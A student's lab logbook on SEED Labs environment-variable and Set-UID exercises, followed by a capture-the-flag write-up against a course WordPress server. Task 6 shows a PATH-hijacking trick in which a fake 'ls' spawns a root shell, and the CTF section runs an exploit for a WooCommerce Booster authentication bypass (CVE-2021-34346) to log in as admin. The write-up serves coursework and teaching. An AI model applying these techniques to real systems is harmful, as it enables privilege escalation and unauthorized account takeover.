# LogBook4
## SEED Labs – Environment Variable and Set-UID Program Lab

### Task 1

### Task 2
Environment variables are the same on parent and child process. Which means the child process has access to the same environment variables as the father process.







### Task 3
With the original line, no environment variables were returned. However, after the change, all of the original variables were displayed. This is because we passed an array of pointers **environ with the content of the environment variables. If environ is set as the third argument the program will inherit the parents env vars.
  


### Task 4
System() calls "/bin/sh;execl()" to call execve passing in the environment variables array. In contrast to execve, we don't need to pass the environment variables explicitly. They are already inherited automatically.



### Task 5
Even on an Set-UID process, environment variables from real user are kept, with the exception of LD_LIBRARY_PATH being unset.


```sh 
seed@VM:~$ gcc step1.c
seed@VM:~$ sudo chown root a.out
seed@VM:~$ sudo chmod 4755 a.out
seed@VM:~$ export PATH=/usr/games/
seed@VM:~$ export LD_LIBRARY_PATH=hello
seed@VM:~$ export ANY_NAME=hi
seed@VM:~$ ./a.out 
SHELL=/bin/bash
SESSION_MANAGER=local/VM:@/tmp/.ICE-unix/11165,unix/VM:/tmp/.ICE-unix/11165
QT_ACCESSIBILITY=1
COLORTERM=truecolor
XDG_CONFIG_DIRS=/etc/xdg/xdg-ubuntu:/etc/xdg
XDG_MENU_PREFIX=gnome-
GNOME_DESKTOP_SESSION_ID=this-is-deprecated
ANY_NAME=hi
GNOME_SHELL_SESSION_MODE=ubuntu
SSH_AUTH_SOCK=/run/user/1000/keyring/ssh
XMODIFIERS=@im=ibus
DESKTOP_SESSION=ubuntu
SSH_AGENT_PID=10711
GTK_MODULES=gail:atk-bridge
PWD=/home/seed/Desktop/task5
LOGNAME=seed
XDG_SESSION_DESKTOP=ubuntu
XDG_SESSION_TYPE=x11
GPG_AGENT_INFO=/run/user/1000/gnupg/S.gpg-agent:0:1
XAUTHORITY=/run/user/1000/gdm/Xauthority
GJS_DEBUG_TOPICS=JS ERROR;JS LOG
WINDOWPATH=2
HOME=/home/seed
USERNAME=seed
IM_CONFIG_PHASE=1
LANG=en_US.UTF-8
LS_COLORS=rs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so=01;35:do=01;35:bd=40;33;01:cd=40;33;01:or=40;31;01:mi=00:su=37;41:sg=30;43:ca=30;41:tw=30;42:ow=34;42:st=37;44:ex=01;32:*.tar=01;31:*.tgz=01;31:*.arc=01;31:*.arj=01;31:*.taz=01;31:*.lha=01;31:*.lz4=01;31:*.lzh=01;31:*.lzma=01;31:*.tlz=01;31:*.txz=01;31:*.tzo=01;31:*.t7z=01;31:*.zip=01;31:*.z=01;31:*.dz=01;31:*.gz=01;31:*.lrz=01;31:*.lz=01;31:*.lzo=01;31:*.xz=01;31:*.zst=01;31:*.tzst=01;31:*.bz2=01;31:*.bz=01;31:*.tbz=01;31:*.tbz2=01;31:*.tz=01;31:*.deb=01;31:*.rpm=01;31:*.jar=01;31:*.war=01;31:*.ear=01;31:*.sar=01;31:*.rar=01;31:*.alz=01;31:*.ace=01;31:*.zoo=01;31:*.cpio=01;31:*.7z=01;31:*.rz=01;31:*.cab=01;31:*.wim=01;31:*.swm=01;31:*.dwm=01;31:*.esd=01;31:*.jpg=01;35:*.jpeg=01;35:*.mjpg=01;35:*.mjpeg=01;35:*.gif=01;35:*.bmp=01;35:*.pbm=01;35:*.pgm=01;35:*.ppm=01;35:*.tga=01;35:*.xbm=01;35:*.xpm=01;35:*.tif=01;35:*.tiff=01;35:*.png=01;35:*.svg=01;35:*.svgz=01;35:*.mng=01;35:*.pcx=01;35:*.mov=01;35:*.mpg=01;35:*.mpeg=01;35:*.m2v=01;35:*.mkv=01;35:*.webm=01;35:*.ogm=01;35:*.mp4=01;35:*.m4v=01;35:*.mp4v=01;35:*.vob=01;35:*.qt=01;35:*.nuv=01;35:*.wmv=01;35:*.asf=01;35:*.rm=01;35:*.rmvb=01;35:*.flc=01;35:*.avi=01;35:*.fli=01;35:*.flv=01;35:*.gl=01;35:*.dl=01;35:*.xcf=01;35:*.xwd=01;35:*.yuv=01;35:*.cgm=01;35:*.emf=01;35:*.ogv=01;35:*.ogx=01;35:*.aac=00;36:*.au=00;36:*.flac=00;36:*.m4a=00;36:*.mid=00;36:*.midi=00;36:*.mka=00;36:*.mp3=00;36:*.mpc=00;36:*.ogg=00;36:*.ra=00;36:*.wav=00;36:*.oga=00;36:*.opus=00;36:*.spx=00;36:*.xspf=00;36:
XDG_CURRENT_DESKTOP=ubuntu:GNOME
VTE_VERSION=6003
GNOME_TERMINAL_SCREEN=/org/gnome/Terminal/screen/5c7d2f31_a006_4918_b75d_8daacd981d42
INVOCATION_ID=ca65e4d0eae349a291ddde3ae267bff6
MANAGERPID=10018
GJS_DEBUG_OUTPUT=stderr
LESSCLOSE=/usr/bin/lesspipe %s %s
XDG_SESSION_CLASS=user
TERM=xterm-256color
LESSOPEN=| /usr/bin/lesspipe %s
USER=seed
GNOME_TERMINAL_SERVICE=:1.92
DISPLAY=:0
SHLVL=1
QT_IM_MODULE=ibus
XDG_RUNTIME_DIR=/run/user/1000
JOURNAL_STREAM=9:44806
XDG_DATA_DIRS=/usr/share/ubuntu:/usr/local/share/:/usr/share/:/var/lib/snapd/desktop
PATH=/usr/games/
GDMSESSION=ubuntu
DBUS_SESSION_BUS_ADDRESS=unix:path=/run/user/1000/bus
OLDPWD=/home/seed
_=./a.out
Command 'date' is available in the following places
 * /bin/date
 * /usr/bin/date
The command could not be located because '/usr/bin:/bin' is not included in the PATH environment variable.
date: command not found
```

### Task 6
Since system didn't specify the full path of the command, the PATH environment variable will be looked up to see in which directories to look for the ls binary.

```sh
  # Create our own "ls" command which could just spawn a shell for us (root shell).
    #!/bin/zsh
    echo "Calling custom ls"
    /bin/sh #symbolic link to zsh

  # Give it executable privileges
    chmod +x ls

  # Alter the PATH to look at the directory where we stored our custom "ls" before others
    export PATH=/home/seed/customBinaries:$PATH
```




## CTF 1 - Wordpress

- [ctf-fsi.fe.up:5001](http://ctf-fsi.fe.up.pt:5001)

### Versions

After navigating a bit on the website we find an additional information tab:

- Wordpress version 5.8.1
- WooComerce plugin 5.7.1
- Booster for WooComerce plugin 5.4.3



### Users

We can also see possible usernames on "recent comments".



- admin
- Orval Sanford

### Vulnerability

Searching for vulnerabilities wordpress itself doesn't seem to have any known exploits.
Looking at the plugins from WooComerce one of them seems promising.
It has the same version as the WooComerce Booster Plugin (5.4.3).
Since it's an authentication bypass we should be able to view private files
once we run it.



On exploit-db we can identify the CVE number.



- WordPress Plugin WooCommerce Booster Plugin 5.4.3 - Authentication Bypass
- CVE-2021-34346

### Exploiting

```sh
# the last argument 1 is the admin user
# this was confirmed after accessing 
# https://ctf-fsi.fe.up.pt:5001/wp-json/wp/v2/users/1
python3 exploit.py http://ctf-fsi.fe.up.pt:5001 1
```



After running the exploit we are given 3 links, after trying the second one
returned a message of authentication success.
Accessing the link we find a forum with a private message on it containing the
last flag.
